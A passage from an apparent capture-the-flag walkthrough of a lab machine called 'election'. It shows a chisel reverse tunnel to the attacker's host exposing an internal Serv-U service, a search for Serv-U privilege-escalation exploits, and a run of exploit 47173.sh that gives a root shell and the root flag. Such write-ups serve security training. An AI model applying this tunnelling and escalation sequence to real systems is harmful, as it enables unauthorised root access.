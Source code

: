 	- Target

		``` 
		love@election:/tmp$ ./chiselLinux64 client 192.168.110.4:1337 R:8888:127.0.0.1:43958 &
		```

3. Proceed to `localhost:8888`	
	![](Pasted%20image%2020220215004638.png)
	- `Serv-U 15.1.6.25`
4. Search exploits for `Serv-U 15.1.6.25`

	| Exploit Title                                               | Path                    |

	| ----------------------------------------------------------- | ----------------------- |

	| Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1) | linux/local/47009.c     |

	| Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2) | multiple/local/47173.sh |

5. Try `multiple/local/47173.sh`

	``` 
	love@election:/tmp$ chmod +x 47173.sh 
	love@election:/tmp$ ./47173.sh 
	```

	![](Pasted%20image%2020220215004816.png)

6. Root Flag

	``` 
	sh-4.4# cd /root
	sh-4.4# ls
	root.txt
	sh-4.4# cat root.txt 
	5238feefc4ffe09645d97e9ee49bc3a6
	sh-4.4# 
	```
